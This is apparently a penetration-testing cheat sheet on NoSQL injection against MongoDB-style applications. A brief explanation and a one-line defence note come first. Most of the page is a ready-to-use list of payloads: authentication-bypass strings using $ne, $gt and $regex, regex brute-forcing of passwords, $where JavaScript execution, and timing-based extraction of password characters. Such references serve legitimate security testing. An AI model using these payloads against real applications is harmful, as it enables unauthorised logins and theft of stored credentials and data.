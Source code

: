 # NoSQL injection

### Whats NoSQL Injection

NoSQL Injection diverges from SQL Injection primarily due to differences in query syntax and execution. Unlike SQL databases, NoSQL databases utilize varied query formats, such as JSON or XML, leading to distinct attack vectors.

In SQL Injection, attackers exploit vulnerabilities by injecting SQL commands into input fields. In contrast, NoSQL Injection manipulates input data to disrupt query execution within NoSQL databases, often bypassing traditional sanitization checks.

SQL Injection typically targets the database engine, while NoSQL Injection may occur at different layers of the application stack, depending on the database API and data model.

For instance, consider login queries. In SQL, a query might be:

```sql
SELECT * FROM users WHERE user = '$username' AND pass = '$password'
```

In MongoDB, using JSON-like syntax, the equivalent query would be:

```javascript
db.users.find({user: username, pass: password});
```

In MongoDB, parameters are passed within a `find()` function, without quotation marks, reflecting the database's distinct syntax.

To defend against NoSQL Injection, implement robust input validation, parameterized queries, and context-aware sanitization techniques tailored to the database's query format. Understanding these nuances is crucial to fortify applications against evolving security threats.

### Syntax Injection Test Cases:

1. **Testing Query Syntax**:
   * Submit fuzz strings and special characters to test query syntax.
   * Example Payload: `'"{;$Foo}$Foo \xYZ`
2. **Determining Processed Characters**:
   * Inject individual characters to identify syntax interpretation.
   * Example Payload: `'`
3. **Confirming Conditional Behavior**:
   * Test false and true conditions to observe differences in application behavior.
   * Example Payloads:
     * False Condition: `' && 0 && 'x`
     * True Condition: `' && 1 && 'x`
4. **Overriding Conditions**:
   * Inject conditions that always evaluate to true to exploit vulnerabilities.
   * Example Payload: `'%27%7c%7c%31%7c%7c%27`

#### Operator Injection Test Cases:

1. **Submitting Query Operators**:
   * Insert query operators via JSON messages or URL parameters.
   *   Example Payload:&#x20;

       `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
2. **Extracting Data Using Operators**:
   * Utilize query operators to manipulate queries and extract data.
   *   Example Payload:&#x20;

       `{"username":"admin","password":{"$regex":"^.*"}}`
3. **Testing Field Names**:
   * Identify valid fields in the collection to extract data.
   * Example Payloads:
     * Existing Field: `admin' && this.username!='`
     * Non-existent Field: `admin' && this.foo!='`
4. **Injecting Operators for JavaScript Execution**:
   * Use injected operators to execute JavaScript and extract data.
   * Example Payload: `"$where":"Object.keys(this)[0].match('^.{0}a.*')"`
5. **Timing-Based Injection**:
   * Trigger time delays to detect and exploit vulnerabilities.
   *   Example Payload:&#x20;

       `admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'`

### General Guidelines:

* **Adaptation**: Customize payloads based on specific application contexts.
* **Encoding**: Encode payloads as necessary, particularly for URL-based injections.
* **Validation**: Verify responses for changes/error messages indicating successful exploitation.

### Payloads

* Operator Injection

```mongodb
username[$ne]=1$password[$ne]=1 #<Not Equals>
username[$regex]=^adm$password[$ne]=1 #Check a <regular expression>, could be used to brute-force a parameter
username[$regex]=.{25}&pass[$ne]=1 #Use the <regex> to find the length of a value
username[$eq]=admin&password[$ne]=1 #<Equals>
username[$ne]=admin&pass[$lt]=s #<Less than>, Brute-force pass[$lt] to find more users
username[$ne]=admin&pass[$gt]=s #<Greater Than>
username[$nin][admin]=admin&username[$nin][test]=test&pass[$ne]=7 #<Matches non of the values of the array> (not test and not admin)
{ $where: "this.credits == this.debits" }#<IF>, can be used to execute code
```

* #### Basic authentication bypass <a href="#basic-authentication-bypass" id="basic-authentication-bypass"></a>

```mongodb
#in URL
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```

* Mongodb Payloads

```mongodb
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```
